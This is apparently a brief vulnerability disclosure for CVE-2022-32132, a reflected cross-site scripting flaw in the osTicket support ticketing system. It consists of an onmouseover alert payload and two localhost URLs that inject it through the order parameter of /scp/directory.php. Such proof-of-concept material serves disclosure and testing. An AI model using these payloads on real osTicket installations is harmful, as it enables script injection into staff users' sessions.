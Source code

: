 # CVE-2022-32132 for osTicket | Support Ticketing System

Reflected XSS:
```
Payload: " onmouseover="alert(1)

> http://localhost/scp/directory.php?&&order=DESCE%22%20onmouseover=%22alert(1)%22%20style=%22position:fixed;top:0px;right:0;bottom:0px;left:0px;&sort=name
> http://localhost/scp/directory.php?&&order=DESCE%22%20onmouseover=%22alert(1)&sort=name
```

